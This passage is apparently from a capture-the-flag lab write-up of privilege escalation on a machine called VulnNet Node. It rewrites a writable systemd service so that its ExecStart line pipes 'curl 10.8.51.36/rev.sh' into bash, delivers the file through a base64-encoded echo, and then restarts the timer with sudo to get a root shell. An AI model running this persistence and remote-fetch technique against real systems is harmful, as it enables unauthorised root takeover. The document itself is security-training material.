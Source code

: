 ```shell

[Install]
WantedBy=multi-user.target
```


⇒ service is writeable with **serv-manage** but we can't edit with nano or vim
⇒ So just replace contents of it with echo include payload encode by base64

```shell
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c 'curl 10.8.51.36/rev.sh | bash'

[Install]
WantedBy=multi-user.target
```

```shell
serv-manage@vulnnet-node:~$ echo W1VuaXRdCkRlc2NyaXB0aW9uPUxvZ3Mgc3lzdGVtIHN0YXRpc3RpY3MgdG8gdGhlIHN5c3RlbWQgam91cm5hbApXYW50cz12dWxubmV0LWF1dG8udGltZXIKCltTZXJ2aWNlXQojIEdhdGhlciBzeXN0ZW0gc3RhdGlzdGljcwpUeXBlPWZvcmtpbmcKRXhlY1N0YXJ0PS9iaW4vYmFzaCAtYyAnY3VybCAxMC44LjUxLjM2L3Jldi5zaCB8IGJhc2gnCgpbSW5zdGFsbF0KV2FudGVkQnk9bXVsdGktdXNlci50YXJnZXQ= | base64 -d > /etc/systemd/system/vulnnet-job.service

serv-manage@vulnnet-node:~$ sudo /bin/systemctl stop vulnnet-auto.timer 
serv-manage@vulnnet-node:~$ sudo /bin/systemctl daemon-reload
serv-manage@vulnnet-node:~$ sudo /bin/systemctl start vulnnet-auto.timer
```

⇒ We got a root shell  
![](/commons/THM/VulnNet2-Node/5_got_root_shell.png)

***GOT ROOT FLAG.***